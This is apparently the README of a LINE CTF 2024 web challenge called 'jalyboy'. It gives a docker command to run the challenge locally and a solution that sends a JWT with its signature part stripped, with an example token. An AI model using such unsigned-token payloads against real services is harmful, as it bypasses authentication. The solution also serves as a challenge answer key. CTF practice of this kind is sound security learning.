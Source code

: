 # linectf2024-jalyboy

## How to run it

```shell
docker compose up -d
```

Access http://localhost:10000/

## Solution
Send a jwt without signature like this `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.`
